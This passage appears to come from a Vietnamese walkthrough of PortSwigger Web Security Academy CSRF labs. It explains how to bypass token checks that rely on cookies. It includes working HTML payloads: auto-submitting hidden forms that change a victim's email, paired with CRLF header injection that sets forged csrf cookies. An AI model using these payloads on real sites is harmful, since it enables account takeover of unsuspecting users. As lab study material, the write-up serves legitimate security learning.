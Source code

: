 Cụ thể đầu tiên ta sẽ làm như sau: 

![image](https://user-images.githubusercontent.com/104350480/225388346-1bc3adaf-c9c6-447d-891d-c4cee226f3a3.png)

Bên server đã chấp nhận, sau đó ta sẽ thực hiện tương tự như các bài lab trước, như đã nói ở trên ta cần nhúng csrfKey vào nên ta sẽ thực hiện bằng cách dùng img: 

```
      <form method="POST" action="https://0a710093043d2ec2c415d20700be0075.web-security-academy.net/my-account/change-email" >
        <input type="hidden" name="email" value="1manhhuy2002@gmail.com" />
        <input type="hidden" name="csrf" value="Xs7dJWL7tw1a1xPD1Hkw1cMXlZJ3BNGS" />
        <input type="submit" value="Submit request" />
      </form>
  <img src="https://0a710093043d2ec2c415d20700be0075.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=oOuXqmhVhMGrJCSP7oTLu7ypF8roXQzh%3b%20SameSite=None" onerror="document.forms[0].submit()">

```

## [5. CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie)<a name='pcsrf6'></a>

Bài này là 1 ví dụ đơn giản hơn chall trước nhưng ý tưởng vẫn thế, ta chỉ cần thay csrfKey ở bài trước thành csrf ở bài này, đặc biệt là giá trị csrf ở đây được tùy chỉnh miễn là 2 cái giống nhau là được nên ta có thể dùng script như bên dưới để thực hiện luôn: 

![image](https://user-images.githubusercontent.com/104350480/225396472-35577f21-547e-4e81-af60-d2552a4871a6.png)


```
<form method='POST' action='https://0a01002a041ea7e0c15ae5bf00e7008c.web-security-academy.net/my-account/change-email'>
<input type='hidden' name='email' value='manhhuy2002@gmail.com'>
<input type='hidden' name='csrf' value='test'>
<input type='submit'>
</form>
<img src="https://0a01002a041ea7e0c15ae5bf00e7008c.web-security-academy.net/?search=abcd%0d%0aSet-Cookie:%20csrf=test%3b%20SameSite=None"
 onerror="document.forms[0].submit()">
 
 ```


## [6. CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present)<a name='pcsrf7'></a>

Trong kịch bản ở 2 bài lab cuối 10 và 11 này, ngoài kiểu chống csrf attack với csrf token và bypass csrf samesite thì ứng dụng có thể sử dụng cả http referer header.

Với phương án này, ứng dụng sẽ xác nhận xem request có xuất phát từ domain tương ứng haykhoong nên nhìn chung sẽ kém hiểu quả hơn. Cụ thể ở bài lab này sẽ có kịch bản là quá trình xác minh tùy thuộc vào sự có mặt của referer header.
